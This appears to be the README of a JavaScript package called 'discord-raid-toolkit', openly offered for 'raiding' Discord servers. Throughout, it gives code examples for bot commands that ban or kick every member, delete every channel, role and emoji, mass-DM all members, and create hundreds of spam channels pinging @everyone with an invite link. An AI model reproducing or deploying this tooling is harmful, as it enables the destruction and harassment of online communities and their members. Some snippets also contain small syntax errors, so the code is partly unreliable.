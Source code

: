 Discord RAID Toolkit, There is finally one!

*This package is for people who want to make a really op* **raid** *bot in a couple of minutes*


<h1>Functions:</h1>

- `banall(serverid, ban_reason, client_name, event)` - This will allow you to ban every member that is on the guild with the id you provided.
- `kickall(serverid, kick_reason, client_name, event)` - This will allow you to kick every member that is on the guild with the id you provided.
- `deleteAllChannels(serverid, client_name, event)` - This will delete every channel on the guild with the ID you provided
- `createChannelsLoop(serverid, channels_name, times_messsage_is_sent, channel_message, type, topic, nsfw, channel_cooldown, reason, times, client_name, event)` - This is the whole **raid** practically... It allows you to make a loop for creating channels with really nice options to put in the created channels (the channel_cooldown must be put as seconds, so if you put 10, it will set 10 seconds of cooldown. etc... so if you want a bigger number then google '5 hours to seconds' or '6 hours to seconds' etc..)
- `dmall(serverid, dmall_message, client_name, event)` - It allows you to dm a dmall_message to every member in the guild with the ID you provided
- `deleteAllRoles(serverid, client_name, event)` - It allows you to delete every single role of the guild with the ID you provided
- `deleteAllEmojis(serverid, client_name event)` - It allows you to delete every single emoji of the guild with the ID you provided


<h1>Examples of every function</h1>

**How to ban every member in a guild:** (*banall(serverid, ban_reason, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!banall')) {
    raid.banall(message.guild.id, 'YOU JUST GOT F#CKED BY IDK!', client, message) //this will ban every single member in current guild setting the reason of their ban as 'YOU JUST GOT F#CKED BY IDK!'
  }
})
```


**How to kick every member in a guild:** (*kickall(serverid, kick_reason, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!kickall')) {
    raid.kickall(message.guild.id, 'KICK REASON IN HERE BRUH!', client, message) //this will kick every single member in current guild setting the reason of their kick as 'KICK REASON IN HERE BRUH!'
  }
})
```

**How to delete every channel in a guild:** (*deleteAllChannels(serverid, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-channels')) {
    raid.deleteAllChannels(message.guild.id, client, message) //This will delete every single channel in current guild
  }
})
```

**How to create a loop to make 254 (or any if you want this amount is for the example) channels in a guild:** (*createChannelsLoop(serverid, channels_name, times_messsage_is_sent, channel_message, type, topic, nsfw, channel_cooldown, reason, times, client_name, event)*)
```js
client.on('message', message => {
  if(message.content.startsWith('!create-254-channels')) {
    raid.createChannelsLoop(message.guild.id, 'server f#cked by myself!', '5', '@everyone https://discord.gg/some-invite-code-bruh', 'text', 'LMAO! CHANNEL TOPIC!', true, 10, 'They deserved it...', 254, client, message) //the times_message_is_sent field sets the times the channel_message will be sent to created channels, You can always try in a test server and understand much better, type can be either 'text' or 'voice' it's self explanatory. nsfw can be either 'true' or 'false', channel_cooldown field is the cooldown for the channels created, it must be put in seconds, so google 6 hours to seconds or 1 hour to second and the convert to seconds is the number you must put (as you see i put 10 in the example so cooldown will be 10 seconds), the reason field is the reason that will be shown up on audit logs when creating any channel, and times is just the times the channels will be created, in the example i put 254 so it will make 254 channels, so there you go!
  }
})
```

**How to dm a message to every member in a guild:** (*dmall(serverid, dmall_message, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!dmall')) {
    raid.dmall(message.guild.id, 'hello bruh' client, message) //this will send the text 'hello bruh' to every member in current guild
  }
})
```

**How to delete every single role in a guild:** (*deleteAllRoles(serverid, client_name, event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-roles')) {
    raid.deleteAllRoles(message.guild.id, client, message) //this will delete every single role in current guild
  }
})
```

**How to delete every single emoji in a guild:** (*deleteAllEmojis(serverid, client_name event)*)
```js
const raid = require('discord-raid-toolkit')
client.on('message', message => {
  if(message.content.startsWith('!delete-all-emojis')) {
    raid.deleteAllEmojis(message.guild.id, client, message) //this will delete every single emoji in current guild
  }
})
```



**After this you are done! i think i explained correctly so that anyone can get it! Have fun raiding.**



UPDATE (0.0.9)
- Now your bot won't spam the console when reaching 500 channels created! The loop will stop when there are more than 498 channels.
